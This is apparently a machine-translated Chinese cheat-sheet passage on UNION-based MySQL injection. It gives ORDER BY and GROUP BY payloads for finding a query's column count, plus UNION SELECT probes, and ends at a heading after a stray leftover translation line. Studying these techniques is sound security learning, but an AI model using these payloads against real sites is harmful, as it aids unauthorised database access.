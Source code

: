 **基于 UNION 的 MySQL 注入**

**检测列数**

首先需要知道查询的列数。

**使用 `order by` 或 `group by`**

通过不断递增数字直到得到 False 响应。尽管 GROUP BY 和 ORDER BY 在 SQL 中功能不同，但它们可以以完全相同的方式用于确定查询中的列数。

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - 查询只使用了3列
                        #-1' UNION SELECT 1,2,3--+	True
```

或者

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - 查询只使用了3列
                        #-1' UNION SELECT 1,2,3--+	True
```

**使用 `order by` 或 `group by` 基于错误**

与前述方法类似，如果启用了错误显示，我们可以通过一个请求检查列数。

```sql
1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'order clause'
# 这个错误意味着查询使用了3列
#-1' UNION SELECT 1,2,3--+	True
```

或者

```sql
1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'group statement'
# 这个错误意味着查询使用了3列
#-1' UNION SELECT 1,2,3--+	True
```

基于文档内容，以下是翻译：

##### 使用 `UNION SELECT` 基于错误的方法
